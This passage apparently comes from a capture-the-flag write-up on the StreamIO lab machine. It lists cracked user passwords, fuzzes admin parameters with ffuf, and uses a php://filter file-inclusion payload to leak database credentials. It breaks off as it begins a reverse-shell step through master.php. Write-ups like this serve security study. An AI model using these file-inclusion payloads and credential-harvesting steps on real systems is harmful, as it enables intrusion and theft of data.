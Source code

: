 ```
```

If we try offline cracking (hashcat 0 mode) them we can found a bunch of credentials:

```
##123a8j8w5123##  (Lauren)
!!sabrina$        (Sabrina)
highschoolmusical (Thane)
$hadoW            (Barry)
!?Love?!123       (Michelle)
!5psycho8!        (Victoria)
%$clara           (Clara)
physics69i        (Lenord)
$3xybitch         (Juliette)
$monique$1991$    (Bruno)
66boysandgirls..  (yoshihide)
paddpadd          (admin)
```

But just **yoshihide** user will work in the login. This user can access the **/admin** page. We found there a bunch of url parameters. We can fuzz by them:

```console
zero@pio$ ffuf -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'https://streamio.htb/admin/?FUZZ=' -H 'Cookie: PHPSESSID=3189vhj6ai9n2d28ck6ndh4j2d' -fs 1678

	debug                   [Status: 200, Size: 1712, Words: 90, Lines: 50, Duration: 55ms]
	movie                   [Status: 200, Size: 320235, Words: 15986, Lines: 10791, Duration: 70ms]
	staff                   [Status: 200, Size: 12484, Words: 1784, Lines: 399, Duration: 63ms]
	user                    [Status: 200, Size: 3557, Words: 389, Lines: 111, Duration: 62ms]
```

The **debug** parameter doesn’t appear in the admin page but it is a valid one. We can start fuzzing by files, because it is a debugger:

```console
zero@pio$ ffuf -c -w /usr/share/seclists/Discovery/Web-Content/SVNDigger/cat/Language/php.txt -u 'https://streamio.htb/admin/?debug=FUZZ' -H 'Cookie: PHPSESSID=3189vhj6ai9n2d28ck6ndh4j2d' -fs 1712

	index.php               [Status: 200, Size: 1693, Words: 93, Lines: 47, Duration: 61ms]
	master.php              [Status: 200, Size: 344209, Words: 17997, Lines: 11207, Duration: 110ms]
```

We see that we can get those file searching them.

```console
zero@pio$ curl -s -k "https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=index.php" -H 'Cookie: PHPSESSID=3189vhj6ai9n2d28ck6ndh4j2d' | grep developers |  awk '{print $6}' | base64 -d

	$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
	$handle = sqlsrv_connect('(local)',$connection);
```

The **master.php** file includes other files, so we can pass a reverse shell. Encrypt it in base64 and send it as:
